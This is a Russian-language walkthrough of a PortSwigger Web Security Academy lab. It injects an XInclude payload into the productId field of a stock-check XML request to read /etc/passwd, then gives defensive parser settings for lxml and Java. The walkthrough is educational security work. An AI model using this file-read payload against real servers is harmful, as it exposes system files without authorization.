

# Lab: Exploiting XInclude to retrieve files

**Платформа:** PortSwigger Web Security Academy
**Категория:** XXE (XML External Entity) / XInclude
**Сложность:** Practitioner
**Дата:** 2025-07-29

---

## TL;DR
Функция «Check stock» вставляет пользовательский ввод (`productId`)
в уже готовый XML-документ на стороне сервера. Полного контроля
над документом нет — `<!DOCTYPE ...>` дописать некуда, значит
классический XXE через сущности не собрать. Обход — **XInclude**:
отдельный от DTD механизм XML, который можно внедрить прямо
внутри значения одного поля и заставить парсер подставить туда
содержимое `/etc/passwd`.

---

## Отличие от классического XXE

```
Классический XXE (предыдущие лабы):
Контролирую весь XML-документ →
могу дописать <!DOCTYPE foo [<!ENTITY ...>]> перед корневым элементом
→ сущности объявляются и вызываются на уровне всего документа

Эта лаба (XInclude):
Контролирую только ОДНО поле (productId) внутри
уже собранного сервером документа →
DOCTYPE дописать негде, корневой элемент уже занят сервером
→ нужен механизм, работающий БЕЗ DOCTYPE и внутри
  произвольного поддерева документа → XInclude
```

---

## Разведка

### Шаг 1 — Анализ запроса «Check stock»

На странице товара нажала **Check stock**, перехватила запрос в Burp:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Значение `productId` — обычное текстовое поле, но оно попадает
внутрь XML-документа, который сервер парсит уже после подстановки.
Полного контроля над документом нет, DOCTYPE вставить некуда —
классическая инъекция сущностей здесь не применима.

---

## Эксплуатация

### Шаг 2 — Составление XInclude payload

Вместо простого числа подставила в `productId` следующую
конструкцию:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Разбор:

```
xmlns:xi="http://www.w3.org/2001/XInclude"
    — объявляет namespace, по которому парсер узнаёт
      директиву XInclude внутри произвольного места документа,
      без всякого DOCTYPE

<xi:include href="file:///etc/passwd" parse="text"/>
    — директива "вставь сюда содержимое файла"
    parse="text" — обязательно: говорит парсеру трактовать
      /etc/passwd как обычный текст, а не как вложенный XML
      (иначе парсер попытается распарсить содержимое файла
      как XML и упадёт с ошибкой, т.к. это не валидный XML)
```

### Шаг 3 — Отправка модифицированного запроса

Итоговое тело запроса:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId><foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo></productId>
    <storeId>1</storeId>
</stockCheck>
```



### Шаг 4 — Проверка результата

Сервер собирает документ, подставляя мой payload вместо
обычного значения `productId`, и парсит его целиком. Парсер
видит внутри поддерева директиву `xi:include`, разворачивает
её, читая `/etc/passwd` как обычный текст, и подставляет
содержимое на место директивы.

Так как значение `productId` отражается в ответе приложения
(в отличие от предыдущих "слепых" XXE-лаб), содержимое
`/etc/passwd` появилось прямо в HTTP-ответе на месте, где
раньше было простое число товара. Лаба решена.

---

## Итог

```
Проблема: пользовательский ввод вставляется в уже существующий
          XML-документ на сервере → контроль только над одним
          полем, DOCTYPE недоступен

Обход:    XInclude — независимый от DTD механизм, который можно
          внедрить прямо в значение поля и заставить парсер
          подставить содержимое произвольного файла

Условие:  парсер должен поддерживать и не отключать XInclude
          (в большинстве парсеров, например libxml2/lxml,
          это отдельный флаг, никак не связанный с отключением
          DTD-сущностей)
```

### Почему это отдельная угроза, а не просто "ещё один XXE"

```
Отключили DTD-сущности (resolve_entities=False, load_dtd=False):
→ классический XXE через <!ENTITY> действительно не пройдёт

Но XInclude — ДРУГОЙ механизм, включается ДРУГИМ флагом:
→ если явно не отключён (xinclude=False и т.п.),
  атака через xi:include сработает даже при полностью
  "защищённом" от DTD парсере
```

---

## Защита

```python
# УЯЗВИМО — DTD отключён, но XInclude по умолчанию включён:
from lxml import etree
parser = etree.XMLParser(
    resolve_entities=False,
    load_dtd=False,
)
tree = etree.parse(request_body, parser)
tree.xinclude()  # явный вызов обработки XInclude — уязвимо,
                 # если href не валидируется

# БЕЗОПАСНО — не вызывать xinclude() вовсе, если он не нужен
# бизнес-логике, либо валидировать href по allow-list:
tree = etree.parse(request_body, parser)
# tree.xinclude() — просто не вызывается
```

```java
// УЯЗВИМО — некоторые парсеры включают поддержку XInclude
// отдельной настройкой, независимой от DTD:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setXIncludeAware(true);  // явно включает XInclude — опасно
                              // без контроля источника href

// БЕЗОПАСНО:
dbf.setXIncludeAware(false);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setExpandEntityReferences(false);
```

Дополнительно:
- Отключать поддержку XInclude на уровне парсера отдельно
  от отключения DTD/внешних сущностей — это разные флаги
- Не доверять пользовательскому вводу, который затем
  встраивается в серверный XML-документ, даже если сам
  пользователь "не контролирует весь документ" — точка
  вставки всё равно остаётся точкой инъекции
- Валидировать и санитизировать значения полей перед
  вставкой в XML (экранирование спецсимволов `<`, `>`, `&`)
  на уровне сборки документа, а не полагаться только
  на настройки парсера
- Использовать безопасные библиотеки сборки XML
  (параметризованный вывод / builder API), а не конкатенацию
  строк при формировании XML на сервере